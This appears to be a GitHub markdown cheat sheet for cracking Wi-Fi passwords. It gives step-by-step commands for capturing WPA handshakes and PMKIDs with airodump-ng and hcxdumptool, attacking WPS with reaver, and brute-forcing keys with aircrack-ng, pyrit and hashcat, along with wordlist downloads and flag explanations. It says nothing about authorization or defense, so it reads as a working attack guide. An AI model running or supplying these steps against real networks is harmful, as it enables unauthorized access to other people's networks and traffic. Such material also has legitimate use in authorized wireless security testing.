 # Wifi Crack

Aircrack: (Hash)

	aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk\*.cap

Reaver: (PSK)

	reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
	reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv

Crunch & Aircrack:

	crunch 8 8 0123456789 -s 00000000 -e 99999999 | aircrack -e test proof.cap -w -

John & Aircrack:

	john --wordlist=password.lst --rules=Jumbo --stdout | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

	https://wpa-sec.stanev.org/
	https://github.com/danielmiessler/SecLists

Pyrit:

Pyrit is one of the fastest tools available for WPA password-cracking out there.

One helpful tool is the strip command, which strips down long capture files to only include relevant packets. And then there's the verify option that lets Pyrit confirm results via recomputation.

Pyrit also has several features to import multiple password lists into a large database. To prevent duplicates, the import_unique_passwords command can also strip out passwords that appear multiple times in the same file we're trying to import. After we import passwords to the database, we can start cracking them with the attack_batch option.

Download a Password List & Benchmark System:

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

	pyrit benchmark (benchmark our system)

	pyrit -i '/root/Desktop/probable-v2-wpa-top4800.txt' import_passwords (import passwords to the database)

Capture handshakes:

	airmon-ng start wlan0
	airodump-ng wlan0mon -c 3 -w capture
	pyrit -r '/root/Desktop/capture-01.cap' analyze (analyse captured file to show if we have a valid handshake)

Final command:

	pyrit -r capture.pcap -o savedpass attack_batch

New Method of Password Cracking:

In this case we use Hxctools & Hashcat to capture packets and crack the password but we can do that automaticaly with wifite, if the necessary softwares are installed Wifite will automaticaly use them and give us a URL to upload the modified handshakes. Then the password cracking is performed from connected server online using different password lists.

Install Hxctools & Hashcat:

	sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev
	
On your Git folder:

	git clone https://github.com/ZerBea/hcxdumptool.git
	cd hcxdumptool
	sudo make
	sudo make install

On your Git folder:

	git clone https://github.com/ZerBea/hcxtools.git
	cd hcxtools
	sudo make
	sudo make install

	apt install hashcat

Use Hxcdump to Capture PMKIDs from Local Networks

	airmon-ng start wlan0
	
	hcxdumptool -i wlan0mon -o galleria.pcapng --enable__status=1

-i tells the program which interface we are using, in this case, wlan0mon. The filename we'll be saving the results to can be specified with the -o flag argument. The channel we want to scan on can be indicated with the -c flag followed by the number of the channel to scan.

Use Hxcpcaptool to Convert the Dump for Hashcat:

To convert our PCAPNG file, we'll use hcxpcaptool with a few arguments specified. In the same folder that your .PCAPNG file is saved, run the following command in a terminal window.

	hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

This command is telling hxcpcaptool to use the information included in the file to help Hashcat understand it with the -E, -I, and -U flags. The -Z flag is used for the name of the newly converted file for Hashcat to use, and the last part of the command is the PCAPNG file we want to convert.

Select a Password List & Brute Force with Hashcat:

	hashcat -m 16800 galleriaHC.16800 -a 0 --kernel-accel=1 -w 4 --force 'topwifipass.txt'
	
In this command, we are starting Hashcat in 16800 mode, which is for attacking WPA-PMKID-PBKDF2 network protocols. Next, we'll specify the name of the file we want to crack, in this case, "galleriaHC.16800." The -a flag tells us which types of attack to use, in this case, a "straight" attack, and then the -w and --kernel-accel=1 flags specifies the highest performance workload profile. If your computer suffers performance issues, you can lower the number in the -w argument.

Next, the --force option ignores any warnings to proceed with the attack, and the last part of the command specifies the password list we're using to try to brute force the PMKIDs in our file, in this case, called "topwifipass.txt."
